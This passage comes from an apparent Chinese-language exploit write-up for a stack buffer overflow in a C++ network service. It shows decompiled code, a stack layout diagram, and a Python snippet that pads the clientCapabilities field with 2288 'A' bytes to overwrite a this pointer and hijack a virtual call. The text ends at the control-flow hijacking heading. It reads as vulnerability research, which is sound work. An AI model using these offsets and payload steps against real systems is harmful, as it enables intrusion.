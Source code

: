 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeiccvh5bZ1fbcUazibh6bqZLpzkja8a7p38vWZ3PzqEQ6To52pCIiaDjibg/640?wx_fmt=png&from=appmsg "")  
  
  
因此从理论上讲我们想要覆盖返回地址，必须给object_to_be_freed  
提供一个有效的地址。  
### 2、虚表调用  
  
给object_to_be_freed  
提供一个有效的地址无疑是非常困难的，但是山无绝人之路，柳暗花明又一村，在释放对象之前有一个C++对象的方法调用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWe2zlAXV6ATVaMf3pKT24zOZQGrBGTXePYv6YKyECuf2KtJQlCDhv1rg/640?wx_fmt=png&from=appmsg "")  
  
```
(*(void (__cdecl **)(int, __int16 *))(*(_DWORD *)a1 + 72))(a1, &v57);

isValid = 1;
EPMessage::~EPMessage((EPMessage *)v56);
DSUtilMemPool::~DSUtilMemPool((DSUtilMemPool *)v61);
return isValid;
```  
  
a1变量是一个this指针，并且this指针存储在栈上，具体栈布局如下，因此我们只需要一个二级指针覆盖this指针就能劫持控制流了。  
  
从dest缓冲区开始覆盖到this指针的位置需要2288字节，使用A进行填充。  
```
data = 'clientHostName=ubuntu '
data += 'clientIp=' + get_real_local_ip() + ' '
data += 'clientCapabilities='
data += get_real_local_ip().ljust(2288, 'A')
```  
```
+---------------------+
| v18 (int)           |
+---------------------+
| v19 (int)           |
+---------------------+
| dest[256]           | <- 256 bytes
+---------------------+
| object_to_be_freed  | <- 4 bytes
+---------------------+
| ptr (void *)        |
+---------------------+
| v20 (int)           |
+---------------------+
| v21 (int)           |
+---------------------+
| v22 (int)           |
+---------------------+
| v23 (char)          |
+---------------------+
| v24 (char)          |
+---------------------+
| v25 (void *)        |
+---------------------+
| v26[499]            | <- 499 DWORDs (4 bytes each)
+---------------------+
| Return Address      |
+---------------------+
| int a1              | <- this*
+---------------------+
| IftTlsHeader *a2    |
+---------------------+
```  
### 3、劫持控制流  
  